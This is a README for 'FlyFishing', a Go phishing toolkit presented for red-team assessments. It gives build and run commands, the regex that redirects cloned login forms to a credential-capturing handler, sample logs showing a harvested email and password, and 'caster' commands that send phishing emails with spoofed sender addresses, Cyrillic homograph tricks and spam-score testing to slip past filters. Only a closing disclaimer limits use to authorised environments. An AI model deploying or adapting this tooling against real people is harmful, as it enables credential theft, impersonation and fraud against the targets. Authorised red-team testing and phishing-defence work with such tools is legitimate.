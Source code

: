 # FlyFishing 🎣
Quickly Deploy Phishing Webpages for Red Team Assessments 


# Description 🦠
Quickly deploy phishing webpages and cast phishing emails to lure victims in Red Team Assessments. This is a lighweight golang webserver which hosts the webpage locally or for one to host externally. Caster on the other hand is for casting phishing emails to given targets on an assessment.

# Deployment 🔨
```bash
git clone https://github.com/CharlesTheGreat77/FlyFishing
cd FlyFishing
go mod init main
go mod tidy
go build -o fishing main.go
```

# fishing 🎣
FlyFishing allows one to setup a local phishing webpage based on a given template. Templates can be found in **/templates** *or* found online.
```bash
./fishing -template templates/google.html
2024/09/23 06:16:27 [*] Server started at http://localhost:8888
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:58 [*] Client IP on login: 192.168.0.42:54775
2024/09/23 06:16:58 [*] Received form data:
2024/09/23 06:16:58 Field: login_password, Value: admin1233
2024/09/23 06:16:58 Field: remember_me, Value: on
2024/09/23 06:16:58 Field: login_email, Value: admin@gmail.com
```

# Templates 📝
How are templates processed?
By using regex to locate action attribute(s) in the form and points such to our /login handler
```golang
re := regexp.MustCompile(`(?i)(<form[^>]*action=")([^"]*)(")`)
modified := re.ReplaceAllString(html, `${1}/login${3}`)
```
* Redirection is based on file name, save templates to **templates** with the correlating website which the form is for (ie. linkedin.html).
  Templates are encoded in base64 and displayed after 3 seconds of the page being visited.


# Caster 🎣
Caster allows one to send or modify given templates to send to targets. It allows one to test the score(s) of a given phishing email using *mail-tester.com* for the odds of the email landing in spam. By spoofing a given email by effectively manipulating the *headers* with a well made phishing email will hook 🪝 most if not all targets!

```bash
Usage of ./caster:
  -help
    	show usage
  -homograph
    	specify option to replace chars with cryillic
  -spamfilter
    	enable to get a given templates spam score
  -spoof string
    	specify address to spoof email from [keep spam in mind]
  -subject string
    	specify a subject to add to email
  -target string
    	specify target(s) email address [filename or seperated by commas]
  -template string
    	specify a template for the email
```

# Caster examples
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target example@domain.com
```

```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target example@domain.com,example2@domain.com
```

```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target emails.txt
```
* emails in file must be seperated by line.

Testing phishing emails with spamfilter
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -spamfilter
```
* sends phishing email to mail-tester.com to retreive **spam** score. [default mail-tester email is hardcoded]

## Spamfilter
The spamfilter email to test phishing email spam scores can be changed to an "updated" email of your choice.
1. Visit https://mail-tester.com
2. Copy Link Email
3. Paste email on line **217**
```golang
	tempMail := "test-sxzd09jk9@srv1.mail-tester.com"
```

# Todo 🧾
* AI template creation [ ]
* Email Obfuscation [x]

# But why FlyFishing? 🤔
After a previous phishing assessment, I wanted to highlight the ease of spinning up cloned phishing pages within around 20 minutes from start to finish. This would allow anyone with limited time to get crackin' wit creds! 🔥


# Credits 🪙
Templates: https://github.com/htr-tech/zphisher/tree/master/.sites

# Disclaimer 🚩
This program should only be used on environments that you own or have explicit permission to do so. The author will not be held liable for any illegal use of this program.
